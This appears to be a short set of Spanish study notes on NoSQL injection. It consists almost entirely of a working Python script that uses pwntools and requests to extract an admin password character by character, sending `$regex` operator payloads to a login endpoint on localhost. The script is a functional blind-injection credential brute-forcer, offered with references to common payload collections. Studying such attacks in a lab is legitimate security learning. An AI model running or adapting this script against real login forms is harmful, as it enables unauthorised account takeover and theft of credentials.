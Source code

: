 Lo que hace es descubrir por medio de regex los caracteres de la contraseña
Material de Apoyo:
Payload All the things o Hactricks Nosq injection


`#!/usr/bin/python3`

`from pwn import *`
`import requests, time, sys, signal, string`

`def def_handler(sig, frame):`
    `print("\n\n[!] Saliendo...\n")`
    `sys.exit(1)`

`signal.signal(signal.SIGINT, def_handler)`

`login_url = "http://localhost:4000/user/login"`
`characters = string.ascii_lowercase + string.ascii_uppercase + string.digits`

`def makeNoSQLI():`
    
    `password = ""`
    
    `p1 = log.progress("Fuerza")`
    `p1.status("Iniciando proceso")`
    `time.sleep(2)`

    `p2 = log.progress("Password")`
    `for position in range(1, 24):`
        `for character in characters:`
            `# Aquí estaba el problema con el uso del operador %.`
            `post_data = '{"username":"admin","password":{"$regex":"^' + password + character + '"}}'`
            
            `p1.status(post_data)`
            `headers = {'Content-Type': 'application/json'}`

            `r = requests.post(login_url, headers=headers, data=post_data)`

            `if "Logged in as user" in r.text:  # Corregido el error tipográfico en "Logged iin"`
                `password += character`
                `p2.status(password)`
                `break`

`if __name__ == '__main__':`
    `makeNoSQLI()`
